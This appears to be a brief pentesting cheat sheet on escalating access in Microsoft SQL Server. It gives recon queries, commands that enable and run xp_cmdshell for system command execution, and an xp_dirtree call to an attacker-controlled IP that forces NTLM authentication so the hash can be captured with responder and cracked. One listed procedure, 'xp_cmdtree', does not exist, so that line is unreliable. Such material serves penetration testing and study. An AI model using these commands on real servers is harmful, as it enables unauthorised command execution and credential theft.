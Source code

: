 # MSsql Escalation

## Basic Information

select @@version; # version of ms_sql
SELECT is_srvrolemember('sysadmin'); #checks if we are admin
select system_user; # returns the current user in the db


## Try to get access to xp_cmdshell


EXEC xp_cmdshell 'net user'; # This allows us to execute commands.
exec xp_cmdtree 'whoami'; # This allows us to execute commands.
exec xp_dirtree 'c:\'; # Checks if we can list files
	if this is successful we can now try to do a request back to us
	exec xp_dirtree '\\our_ip\test\test';
	we can check if we receive the request with nc. This request will attempt a ntlm authentication, so we can start responder to get the hash and then try to crack it


If we cant use it we need to activate it.

	EXEC sp_configure 'show advanced options', 1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell', 1;
	RECONFIGURE;



## Relevant Information

	https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server